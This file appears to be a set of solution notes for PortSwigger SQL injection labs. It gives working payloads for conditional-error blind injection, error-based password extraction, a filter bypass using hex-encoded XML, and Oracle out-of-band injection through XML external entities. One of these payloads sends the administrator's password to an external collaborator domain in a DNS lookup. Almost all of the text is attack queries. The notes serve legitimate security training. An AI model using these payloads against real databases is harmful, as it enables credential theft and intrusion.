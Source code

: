 # SQL Injection

[SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Lab: Blind SQL injection with conditional errors

    SELECT * FROM tracking WHERE id = ''||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

### LAB: Visible error-based SQL injection
This payload will output an error indicating that the password is not of type integer:

    SELECT * FROM tracking WHERE id = '' and 1=cast((select password from users limit 1) as int)--

### LAB: Blind SQL injection with out-of-band interaction
Use the payload in the DNS lookup section for Oracle. The database query now should look like this:

    SELECT * FROM tracking WHERE id = 'x' 
    UNION 
    SELECT EXTRACTVALUE(
        xmltype('<?xml version="1.0" encoding="UTF-8"?>
                <!DOCTYPE root [
                    <!ENTITY % remote SYSTEM "http://0jkn3s1omf3prbf85pphzy5xroxfl69v.oastify.com/"> 
                    %remote;
                ]>'),
        '/l'
    ) FROM dual--

This will cause a DNS lookup to our server.

### LAB: Blind SQL injection with out-of-band data exfiltration
Same as above lab but now include a subquery to steal the administrator's password. The database query now should look like this:

    SELECT * FROM tracking WHERE id = 'x' 
    UNION 
    SELECT EXTRACTVALUE(
        xmltype('<?xml version="1.0" encoding="UTF-8"?>
                <!DOCTYPE root [
                    <!ENTITY % remote SYSTEM 
                    "http://'||(SELECT password FROM users WHERE username='administrator')||'.0jkn3s1omf3prbf85pphzy5xroxfl69v.oastify.com/"> 
                    %remote;
                ]>'),
        '/l'
    ) FROM dual--

This will cause a DNS lookup to our server containing the administrator's password in the subdomain.

### Lab: SQL injection with filter bypass via XML encoding
Use Hackvertor with hex encoding to bypass WAF:

    <?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            <@hex_entities>
                1 UNION SELECT username || '~' || password from users
            </@hex_entities>
        </storeId>
    </stockCheck>